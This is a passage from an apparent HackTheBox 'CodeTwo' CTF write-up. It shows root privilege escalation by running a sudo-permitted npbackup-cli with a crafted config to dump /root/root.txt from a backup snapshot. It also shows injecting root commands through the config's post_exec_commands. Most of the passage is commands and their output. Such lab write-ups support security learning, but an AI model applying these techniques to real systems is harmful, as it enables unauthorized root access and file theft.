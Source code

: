 We can see there is a snapshot ID has been saved, we can double check it by using `-s` option.

```bash
marco@codetwo:/tmp$ sudo /usr/local/bin/npbackup-cli -c malicious.conf -s
2025-08-17 14:38:44,582 :: INFO :: npbackup 3.0.1-linux-UnknownBuildType-x64-legacy-public-3.8-i 2025032101 - Copyright (C) 2022-2025 NetInvent running as root
2025-08-17 14:38:44,623 :: INFO :: Loaded config E1057128 in /tmp/malicious.conf
2025-08-17 14:38:44,641 :: INFO :: Listing snapshots of repo default
ID        Time                 Host        Tags        Paths          Size
---------------------------------------------------------------------------------
35a4dac3  2025-04-06 03:50:16  codetwo                 /home/app/app  48.295 KiB
c010518e  2025-08-17 14:38:26  codetwo                 /root          197.660 KiB
---------------------------------------------------------------------------------
2 snapshots
2025-08-17 14:38:47,657 :: INFO :: Snapshots listed successfully
2025-08-17 14:38:47,658 :: INFO :: Runner took 3.017154 seconds for snapshots
2025-08-17 14:38:47,658 :: INFO :: Operation finished
2025-08-17 14:38:47,666 :: INFO :: ExecTime = 0:00:03.087586, finished, state is: success.
```

Now we just need to dump the file we want.

```bash
marco@codetwo:/tmp$ sudo /usr/local/bin/npbackup-cli -c malicious.conf --dump /root/root.txt
ec295dc17c45034def14dde32d1dcdd6
```

There we go, we got the `root.txt` flag.

There is also other way to escalate to root by manipulating the `post_exec_commands: []` to add command to run.

```bash
post_exec_commands:
        - "mkdir -p /tmp/flag"
        - "cp /root/root.txt /tmp/flag/root.txt 2>/dev/null || true"
        - "chmod 644 /tmp/flag/root.txt"
        - "chown marco:marco /tmp/flag/root.txt"
```

We just save and run again then we can grab the flag also.

![result](/assets/img/codetwo-htb-release-area-machine/result.png)